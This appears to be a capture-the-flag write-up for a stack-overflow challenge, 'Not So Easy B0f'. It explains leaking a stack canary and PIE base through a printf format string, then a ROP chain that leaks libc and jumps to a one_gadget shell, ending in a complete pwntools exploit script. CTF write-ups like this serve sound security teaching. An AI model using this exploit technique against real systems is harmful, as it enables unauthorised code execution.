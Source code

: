 # Not So Easy B0f

> I have stack canaries enabled, Can you still B0f me ?
>
> Service : nc 68.183.158.95 8991
>
> [q3](q3)

The given binary has all typical security mechanisms enabled:

		$ checksec q3
	    Arch:     amd64-64-little
	    RELRO:    Full RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      PIE enabled

The binary lets us enter our name and greets us by directly printing out our input via `printf`! Afterwards it lets us read 0x100 bytes into a 16 bytes buffer, so we can overflow the buffer and get code execution, if we get the canary value.

Thanks to `printf` we can specify a format string to read out the canary value from the stack. Additionally since `PIE` is enabled we can also read the `RBP` value to get the `PIE` offset.

With having these values we can now go on and build a `ROP` chain to leak the `libc` base address by setting up a `puts` call that prints its actual address from the `GOT`. Then we call the `main` function again to have another turn to input something.

Now with having the `libc` base address, we overflow the buffer and directly jump to `one_gadget` that spawns the shell.

Exploit code:

```python
from pwn import *


libc = ELF('/usr/lib/libc.so.6')
e = ELF('./q3')


p = process('./q3')
# context.terminal = ['termite', '-e']
# p = gdb.debug('./q3')

p.sendline('%11$llx%12$llx')
p.recvuntil('Hello\n')

canary = int(p.recv(16), 16)
log.success('canary: {}'.format(hex(canary)))

pie_base = int(p.recv(12), 16) - 0x830
log.success('pie_base: {}'.format(hex(pie_base)))

ret = pie_base + 0x60e
pop_rdi_ret = pie_base + 0x893

p.sendline('A' * 24  + p64(canary) + p64(0x0) + p64(pop_rdi_ret) + p64(pie_base + e.got['puts']) + p64(pie_base + e.plt['puts']) + p64(pie_base + e.symbols['main']))
p.recvuntil(': ')

leak = u64(p.recvline()[:-1]+'\x00\x00')
libc_base = leak - libc.symbols['puts']

log.success('libc_base: {}'.format(hex(libc_base)))

one_gadget = libc_base + 0xeafab

p.sendline('0wn3d :))')
p.sendline('A' * 24 + p64(canary) + p64(0x0) + p64(ret) + p64(one_gadget))
p.interactive()
```